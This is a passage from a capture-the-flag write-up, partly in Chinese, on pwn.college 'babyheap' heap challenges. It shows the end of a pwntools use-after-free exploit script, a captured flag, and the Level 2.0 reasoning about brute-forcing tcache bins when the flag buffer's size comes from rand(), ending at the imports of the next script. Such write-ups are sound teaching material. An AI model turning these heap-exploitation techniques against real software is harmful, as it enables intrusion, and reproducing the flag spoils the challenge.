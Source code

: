 ```python
def quit():
    target.sendlineafter(b": ", b"quit")


def main():
    launch()

    malloc(618)
    free()
    read_flag()
    puts()
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{8oPO3KqdZU5lZfzl5xftjR2IZif.0lM3MDL5cTNxgzW}`]

# Level 2.0

## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag.

## Write-up

与 [Level 1](#level-10) 区别不大。但是在 malloc 存放 flag 的空间时使用的是 `rand() % 872 + 128`，这会生成 $[ 0+128,872+128)$ 范围内的随机数。所以我们要么预测它生成什么随机数，要么爆破它落在哪个 bin 中。

[rand](https://en.cppreference.com/w/c/numeric/random/rand) 生成的是伪随机数，可以预测。本来想直接 break PRNG 的：[上帝掷骰子？不，其实是线性同余](/posts/pwn-notes/pwn-trick-notes/#上帝掷骰子不其实是线性同余)。

但是后来发现程序在 `__libc_csu_init` 中调用了 `flag_seed`，而这个函数内部又调用了 `srand(seed)`，它的 seed 是循环异或栈上的数据得来的。虽然在每台机器上运行都会有特定的栈上的数据，但是并不是一个普适的方法，尽管我可以 debug 得到 seed，但是远程就打不通了。所以我们还是用爆破 bins 的方法好了。tcache bins 有限，这个 rand 生成的范围也不是很大，所以还是很容易爆破的。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    log,
    process,
    raw_input,
    remote,
)

FILE = "/challenge/babyheap_level2.0"
```